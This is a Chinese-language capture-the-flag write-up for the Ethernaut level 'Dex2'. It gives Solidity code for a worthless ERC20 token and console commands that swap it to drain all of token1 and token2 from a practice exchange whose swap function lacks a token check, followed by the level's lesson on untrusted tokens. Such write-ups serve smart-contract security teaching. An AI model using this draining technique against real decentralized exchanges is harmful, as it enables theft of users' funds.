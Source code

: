 # 24 Dex2

## 思路

目标: 与[上一关Dex不同](https://github.com/yinhui1984/EthernautGameReferenceAnswers/blob/main/23_Dex.md), 要求窃取全部的token1和token2 (上一关是'或')

交易所代码方面, 删除了上一关`swap`函数中的限制:

```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```



思路:

删除了币种现在, 也就是说可以用任意币来和token1或token2进行交换

 那么创建一个垃圾币token3 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Token3 is ERC20 {
    constructor(string memory _name, string memory _symbol)
        ERC20(_name, _symbol)
    {
        uint256 initSupply = 1000 * 10**decimals();
        _mint(msg.sender, initSupply);
    }
}

```

使用player部署token3, 假设 token3 合约地址为0x66cab61E3C7792Ae1fE83A294B0F92A105cF7255, player便有了很多token3...

```js
token3="0x66cab61E3C7792Ae1fE83A294B0F92A105cF7255"
(await contract.balanceOf(token3, player)).toString() //"1000000000000000000000"
```



发送1000个token3 给交易所

![image](https://github.com/yinhui1984/imagehosting/blob/main/images/1676528790194028000.png?raw=true)

```js
(await contract.balanceOf(token3, instance)).toString()
"1000"
```

现在我们来看看使用token3兑换token1和token2的价格

```js
(await contract.getSwapAmount(token3, await contract.token2(), 1000)).toString()
"100"
(await contract.getSwapAmount(token3, await contract.token1(), 1000)).toString()
"100"
```

哦~~~~ 1000个token3可以兑换100个token1或token2

那就不客气了

先对交易所进行授权(允许交易所操作player的token3)

<img src="https://github.com/yinhui1984/imagehosting/blob/main/images/1676529557793643000.png?raw=true" alt="image" style="zoom:50%;" />

然后

```js
await contract.swap(token3, await contract.token1(), 1000)
await contract.swap(token3, await contract.token2(), 1000)
await contract.swap(token3, await contract.token2(), 3000)
```

```
(await contract.balanceOf(await contract.token1(), instance)).toString()
"0"
(await contract.balanceOf(await contract.token2(), instance)).toString()
"0"
```



## 心得(官方)

As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.

Just because a contract claims to implement the [ERC20 spec](https://eips.ethereum.org/EIPS/eip-20) does not mean it's trust worthy.

Some tokens deviate from the ERC20 spec by not returning a boolean value from their `transfer` methods. See [Missing return value bug - At least 130 tokens affected](https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca).

Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.

If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.

